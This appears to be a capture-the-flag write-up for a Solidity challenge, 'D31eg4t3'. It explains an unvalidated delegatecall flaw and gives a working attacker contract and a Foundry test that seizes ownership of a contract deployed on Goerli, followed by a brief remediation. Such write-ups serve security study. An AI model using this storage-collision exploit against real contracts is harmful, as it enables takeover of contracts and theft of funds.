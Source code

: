 ## D31eg4t3

### Vulnerability Analysis
Given contract utilizes low-lvl functionality - `delegatecall`, which is expected to be used with care.

The issue here is that no validation applied to an external call, so any malicious entity free to exploit the ability of
`delegatecall` to modify state of the calling contract.

### Attack Steps
1. Implement attacker contract with the same storage variables layout as in `D31eg4t3`
   * `attack` function should initiate the attack, by calling `D31eg4t3.hackme` with payload data for calling `updateState` function
   * `updateState` function is expected to be called via `delegatecall` and should update the owner
2. Initiate attack
3. After attack succeeded, the state(owner) of `D31eg4t3` will be updated.

### POC

attacker contract - `D31eg4t3Attack.sol`
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./D31eg4t3.sol";

contract D31eg4t3Attack {
  uint a = 12345;
  uint8 b = 32;
  string private d;
  uint32 private c;
  string private mot;
  address public owner;

  mapping (address => bool) public canYouHackMe;

  D31eg4t3 target;

  constructor(address _target) {
    target = D31eg4t3(_target);
  }

  function attack() external {
    bytes memory data = abi.encodeWithSelector(this.updateState.selector, address(this));
    target.hackMe(data);
  }

  function updateState(address _owner) external {
    owner = _owner;
    canYouHackMe[_owner] = true;
  }
}
```

forge(foundry) test:
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "./D31eg4t3.sol";
import "./D31eg4t3Attack.sol";

// For this test we will use a forked environment
contract D31eg4t3POC is Test {
  D31eg4t3 target = D31eg4t3(0x971e55F02367DcDd1535A7faeD0a500B64f2742d);
  D31eg4t3Attack attacker = new D31eg4t3Attack(0x971e55F02367DcDd1535A7faeD0a500B64f2742d);

  function setUp() external {
    require(target.owner() != address(attacker), "POC: attacker is owner");
    require(target.canYouHackMe(address(attacker)) == false, "POC: hacked");
  }

  function testExploit() external {
    attacker.attack();

    require(target.owner() == address(attacker), "POC: attacker not owner");
    require(target.canYouHackMe(address(attacker)) == true, "POC: not hacked");
  }
}

```

Command: `forge test --mc D31eg4t3POC -f $GOERLI_RPC_URL`

### Remediation
`delegatecall` should only be used on approved(known) contracts.
